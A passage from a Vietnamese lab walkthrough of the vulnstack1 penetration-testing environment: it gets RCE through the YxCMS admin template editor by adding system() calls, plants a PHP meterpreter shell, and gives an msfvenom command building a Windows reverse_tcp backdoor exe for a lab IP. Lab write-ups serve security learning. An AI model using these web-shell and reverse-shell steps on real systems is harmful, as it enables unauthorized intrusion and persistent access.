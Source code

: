 Nice

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/21.jpg)

Thành công RCE. Để học được nhiều hơn tôi sẽ không dừng lại ở đây. Sẽ đi tìm những cách khác nữa
#### RCE via YxCMS
![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/22.jpg)

Có một CSDL là newyscms. Vậy chắc chắn sẽ có 1 site chạy cms này. Tiếp tục đi tìm. Thử 1 vài lần thì tìm thấy nó tại

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/23.jpg)

Tìm thấy thông tin đăng nhập trang admin ở ngay trên trang chính. 

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/24.jpg)

Đăng nhập thành công vào trang admin. Vậy mà ban đầu mình không nhìn thấy còn vào Database thêm user admin khác rồi đăng nhập

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/25.jpg)

Trong phần chỉnh sửa font-end template

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/26.jpg)

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/27.jpg)

Chỉnh sửa index_index.php bằng mã php cho phép thực thi một OS command bằng lệnh gọi hàm system()

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/28.jpg)

Thành công RCE

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/29.jpg)

Tạo meterpreter shell php raw

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/30.jpg)

Sửa nó như thế này

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/31.jpg)

![image](https://raw.githubusercontent.com/tranquac/Blog_Image/master/vulnstack1/32.jpg)

Chúng ta có shell meterpreter PHP ở đây. Nhưng hình nó không được ổn định cho lắm và php meterpreter shell bị hạn chế các module, chức năng. Vì vậy tôi sẽ sử dụng một meterpreter backdoor exe khác để đảm bảo độ ổn định:
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.18.130 LPORT=443 -f exe -o rs_backdoor.exe
```
Tiến hành upload lên từ php meterpreter shell
